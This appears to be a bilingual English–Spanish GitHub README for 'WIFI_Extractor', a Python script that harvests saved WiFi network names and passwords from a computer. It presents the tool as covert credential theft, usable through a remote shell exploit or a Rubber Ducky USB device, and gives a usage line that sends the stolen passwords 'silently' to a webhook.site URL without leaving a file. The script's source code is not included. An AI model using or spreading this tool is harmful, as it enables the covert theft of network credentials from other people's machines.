 # WIFI_Extractor

you might need this requeriments
Tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubby ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubby ducky)

Usage: E_WIFI.py [OPTIONS]


Options:

  -u, --url TEXT      Webhook/POST URL
  
  -o, --only-webhook  Only send data to webhook (whithout creating the txt file) need to specify the url with -u Envía los datos
                      solo a la webhook (sin crear el archivo txt) necesitas especificar la url con -u
                      
  -v, --version       Imprime la version | Prints the version
  
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

silent: Only webhook, no txt file

python3 E_WIFI.py -u https://webhook.site/yoururl -o

type --help for more detailed info


